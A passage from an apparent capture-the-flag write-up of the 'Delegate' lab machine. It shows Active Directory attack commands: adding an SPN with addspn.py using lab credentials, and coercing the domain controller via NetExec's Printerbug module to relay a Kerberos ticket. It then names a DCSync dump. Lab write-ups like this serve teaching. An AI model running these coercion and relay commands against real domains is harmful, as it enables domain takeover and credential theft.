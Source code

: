 Lets check that we have successfully modified the SPN of the fake dns record.

```bash
python3 addspn.py -u 'delegate.vl\n.thompson' -p 'KALEB_2341' -t 'aashwin$' -s 'CIFS/aashwins29.delegate.vl' -dc-ip 10.129.242.110 -q dc1.delegate.vl
```

![image.png](/assets/images/Delegate_VL/image%2033.png)

Now we will coerce the DC in contacting our fake host.

```bash
nxc smb delegate.vl -u 'aashwin$' -p 'aashwin10!' -M coerce_plus -o LISTENER=aashwins29.delegate.vl METHOD=Printerbug
```

![image.png](/assets/images/Delegate_VL/image%2034.png)

And on the Krbrelayx server we received a ticket.

![image.png](/assets/images/Delegate_VL/image%2035.png)

Means now we can do a DCSync attack on the DC and dump the whole database.

### Shell as Administrator
